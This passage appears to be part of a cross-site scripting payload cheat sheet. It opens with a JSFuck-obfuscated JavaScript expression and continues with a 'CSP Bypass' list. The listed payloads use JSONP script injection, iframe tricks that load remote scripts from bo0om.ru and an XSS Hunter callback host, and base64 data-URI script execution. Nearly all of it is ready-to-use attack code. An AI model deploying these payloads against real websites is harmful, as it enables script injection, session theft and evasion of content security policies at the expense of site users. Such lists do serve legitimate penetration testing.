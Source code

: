 	[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+(![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]]+[+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]])()
 ##### CSP Bypass
	https://websecblog.com/vulns/google-csp-evaluator/
	<script/src=//google.com/complete/search?client=chrome%26jsonp=alert(1);>"

	http://hsts.pro/csp.php?xss=f=document.createElement%28%22iframe%22%29;f.id=%22pwn%22;f.src=%22/robots.txt%22;f.onload=%28%29=%3E%7Bx=document.createElement%28%27script%27%29;x.src=%27//bo0om.ru/csp.js%27;pwn.contentWindow.document.body.appendChild%28x%29%7D;document.body.appendChild%28f%29;
	script=document.createElement('script');
	script.src='//bo0om.ru/csp.js';
	window.frames[0].document.head.appendChild(script);

	https://gist.github.com/Rhynorater/311cf3981fda8303d65c27316e69209f
	d=document;f=d.createElement("iframe");f.src=d.querySelector('link[href*=".css"]').href;d.body.append(f);s=d.createElement("script");s.src="https://[YOUR_XSSHUNTER_USERNAME].xss.ht";setTimeout(function(){f.contentWindow.document.head.append(s);},1000)

	<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>

	<script src="data:,alert(1)">/</script>

